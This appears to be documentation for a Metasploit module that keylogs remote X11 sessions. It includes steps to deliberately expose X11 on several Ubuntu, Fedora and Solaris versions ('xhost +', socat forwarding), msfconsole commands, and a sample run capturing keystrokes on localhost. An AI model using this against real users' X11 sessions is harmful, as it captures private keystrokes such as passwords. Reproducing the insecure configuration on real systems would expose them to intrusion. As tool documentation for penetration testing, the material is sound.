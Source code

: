 ## Vulnerable Application

This module binds to an open X11 host to log keystrokes. The X11 service can accept
connections from any users when misconfigured with the command `xhost +`.
This module is a close copy of the old xspy c program which has been on Kali for a long time.
The module works by connecting to the X11 session, creating a background
window, binding a keyboard to it and creating a notification alert when a key
is pressed.

One of the major limitations of xspy, and thus this module, is that it polls
at a very fast rate, faster than a key being pressed is released (especially before
the repeat delay is hit). To combat printing multiple characters for a single key
press, repeat characters arent printed when typed in a very fast manor. This is also
an imperfect keylogger in that keystrokes arent stored and forwarded but status
displayed at poll time. Keys may be repeated or missing.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

### Ubuntu 22.04

#### Server

Getting X11 to listen on a TCP port is rather taxing, so we use socat to facilitate instead.

1. `sudo apt-get install ubuntu-desktop socat` # overkill but it gets everything we need
2. `sudo reboot` # prob a good idea since so much was installed
3. `sudo xhost +` # must be done through gui, not through SSH
4. `socat -d -d TCP-LISTEN:6000,fork,bind=<IP to listen to here> UNIX-CONNECT:/tmp/.X11-unix/X0`, you may need to use `X1` instead of `X0` depending on context.

## Verification Steps

1. Configure X11 to listen on port 6000, or use `socat` to open a socket.
1. Start msfconsole
1. Do: `use auxiliary/gather/x11_keyboard_spy`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should print keystrokes as they're pressed

## Options

### LISTENER_TIMEOUT

How many seconds to keylog for.
If set to `0`, wait forever. Defaults to `600`, 10 minutes.

### PRINTERVAL

The interval to print keylogs in seconds. Defaults to `60`.

## Scenarios

### Ubuntu 22.04

```
[*] Processing xspy.rb for ERB directives.
resource (xspy.rb)> use auxiliary/gather/x11_keyboard_spy
resource (xspy.rb)> set verbose true
verbose => true
resource (xspy.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/x11_keyboard_spy) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:6000 - Establishing TCP Connection
[*] 127.0.0.1:6000 - [1/9] Establishing X11 connection
[-] 127.0.0.1:6000 - Connection packet malfored (size: 8192), attempting to get read more data
[+] 127.0.0.1:6000 - Successfully established X11 connection
[*] 127.0.0.1:6000 - Version: 11.0
[*] 127.0.0.1:6000 - Screen Resolution: 958x832
[*] 127.0.0.1:6000 - Resource ID: 33554432
[*] 127.0.0.1:6000 - Screen root: 1320
[*] 127.0.0.1:6000 - [2/9] Checking on BIG-REQUESTS extension
[+] 127.0.0.1:6000 -   Extension BIG-REQUESTS is present with id 134
[*] 127.0.0.1:6000 - [3/9] Enabling BIG-REQUESTS
[*] 127.0.0.1:6000 - [4/9] Creating new graphical context
[*] 127.0.0.1:6000 - [5/9] Checking on XKEYBOARD extension
[+] 127.0.0.1:6000 -   Extension XKEYBOARD is present with id 136
[*] 127.0.0.1:6000 - [6/9] Enabling XKEYBOARD
[*] 127.0.0.1:6000 - [7/9] Requesting XKEYBOARD map
[*] 127.0.0.1:6000 - [8/9] Enabling notification on keyboard and map
[*] 127.0.0.1:6000 - [9/9] Creating local keyboard map
[+] 127.0.0.1:6000 - All setup, watching for keystrokes
[+] 127.0.0.1:6000 - X11 Key presses observed: te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[-] 127.0.0.1:6000 - No key presses observed
[*] 127.0.0.1:6000 - Closing X11 connection
[+] 127.0.0.1:6000 - Logged keys stored to: /root/.msf4/loot/20240226150211_default_127.0.0.1_x11.keylogger_839830.txt
[-] 127.0.0.1:6000 - Stopping running against current target...
[*] 127.0.0.1:6000 - Control-C again to force quit all targets.
[*] Auxiliary module execution completed
```

## Confirming

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

The output will be very similar to the metasploit module, but may differ. Compare the below two entries (spaces added to xspy for alignment):

```
xspy: the      quck         rown       foxumps      over         the       lazy      do
msf:  te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
```
